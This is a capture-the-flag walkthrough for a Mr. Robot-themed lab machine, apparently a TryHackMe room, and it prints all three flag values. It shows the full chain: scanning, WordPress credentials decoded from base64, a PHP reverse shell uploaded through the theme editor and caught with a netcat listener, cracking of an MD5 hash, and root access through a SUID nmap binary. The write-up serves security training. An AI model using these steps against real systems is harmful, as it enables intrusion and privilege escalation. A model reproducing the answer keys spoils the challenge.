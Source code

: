 # Task 1 Hack the machine :
----

>>Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

## SCANNING :

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ nmap -sC -sV 10.10.114.202

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-27 15:02 GMT
Nmap scan report for ip-10-10-114-202.eu-west-1.compute.internal (10.10.114.202)
Host is up (0.024s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:0F:BA:2D:80:29 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.10 seconds

┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ gobuster dir -u http://10.10.230.70/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.230.70/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/28 08:58:18 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.230.70/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.230.70/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.230.70/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.230.70/audio/]  
/blog                 (Status: 301) [Size: 233] [--> http://10.10.230.70/blog/]   
/css                  (Status: 301) [Size: 232] [--> http://10.10.230.70/css/]    
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.230.70/wp-admin/] 
/favicon.ico          (Status: 200) [Size: 0]                                     
/feed                 (Status: 301) [Size: 0] [--> http://10.10.230.70/feed/]     
/images               (Status: 301) [Size: 235] [--> http://10.10.230.70/images/] 
/Image                (Status: 301) [Size: 0] [--> http://10.10.230.70/Image/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.230.70/image/]    
/index.html           (Status: 200) [Size: 1077]                                  
/index.php            (Status: 301) [Size: 0] [--> http://10.10.230.70/]          
/intro                (Status: 200) [Size: 516314]                                
/js                   (Status: 301) [Size: 231] [--> http://10.10.230.70/js/]     
/license              (Status: 200) [Size: 309]                                   
/login                (Status: 302) [Size: 0] [--> http://10.10.230.70/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.230.70/]            
/phpmyadmin           (Status: 403) [Size: 94]                                      
/readme               (Status: 200) [Size: 64]                                      
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.230.70/feed/rdf/]   
/robots               (Status: 200) [Size: 41]                                      
/robots.txt           (Status: 200) [Size: 41]                                      
/rss                  (Status: 301) [Size: 0] [--> http://10.10.230.70/feed/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.230.70/feed/]       
/sitemap              (Status: 200) [Size: 0]                                       
/sitemap.xml          (Status: 200) [Size: 0]                                       
/video                (Status: 301) [Size: 234] [--> http://10.10.230.70/video/]    
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.230.70/wp-admin/] 
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.230.70/wp-content/]
/wp-config            (Status: 200) [Size: 0]                                        
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.230.70/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]                                         
/wp-links-opml        (Status: 200) [Size: 227]                                       
/wp-load              (Status: 200) [Size: 0]                                         
/wp-login             (Status: 200) [Size: 2606]                                      
/wp-mail              (Status: 500) [Size: 3064]                                      
/wp-settings          (Status: 500) [Size: 0]                                         
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.230.70/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]                                                      
/xmlrpc               (Status: 405) [Size: 42]                                                      
                                                                                                    
===============================================================
2022/01/28 09:37:26 Finished
===============================================================

```

## FINDING FIRST KEY :

>> While seeing robots.txt we found that there is a subdirectory that has key1 .

```
http://10.10.230.70/key-1-of-3.txt
```
```
key1 - 073403c8a58a1f80d943455fb30724b9
```

>> And there is a another directory that directory has downloadable file which has ton of strings that can be used with hydra to brute the wordpress loginpage.  

```
http://10.10.118.131/fsocity.dic
```

>> There is a directory called license which has a base64 string if we decode it, that is the password for the wordpress webpage. 

```
http://10.10.118.131/license
```

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ echo -n ZWxsaW90OkVSMjgtMDY1Mgo= | base64 -d 
elliot:ER28-0652
```

## GETTING A SHELL :

>> After logging there is appearance panel which has editor column that can accessed by us. 

>> With that editor session section we can upload a reverse shell and get the remote access.

>> I choose archive.php and uploading the php rev-shell.

```
http://10.10.230.70/wp-content/themes/twentyfifteen/archive.php/
```

>> Getting a shell has user.

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ nc -lvnp 7007
listening on [any] 7007 ...
connect to [10.9.2.202] from (UNKNOWN) [10.10.230.70] 46149
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 14:26:45 up 37 min,  0 users,  load average: 6.14, 6.11, 5.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
$ 
$ python -c "import pty;pty.spawn('/bin/bash')"
daemon@linux:/$ ^Z
zsh: suspended  nc -lvnp 7007
                                                                                                                            
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ stty raw -echo && fg                                       
[1]  + continued  nc -lvnp 7007
daemon@linux:/$ export TERM=xterm

daemon@linux:/$ cd home/robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b

```

>> Go to this url and decode the hash

```
https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b

decoded hash : abcdefghijklmnopqrstuvwxyz
```

>> Then login with user robot.

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ 
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

## PRIVILEGE ESCALATION :

>> With this command we can find the suid binary to escalate our privilege as root.

>> Here iam using nmap to escalate our privilege as root. 

```bash
robot@linux:/$ find / -perm +6000 2>/dev/null | grep '/bin'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper

robot@linux:/$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# 
# cd /
# cd root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

----

# ANSWER THE QUESTIONS :
----

1.What is key 1?
>>073403c8a58a1f80d943455fb30724b9

2.What is key 2?
>>822c73956184f694993bede3eb39f959

3.What is key 3?
>>04787ddef27c3dee1ee161b21670b4e4

----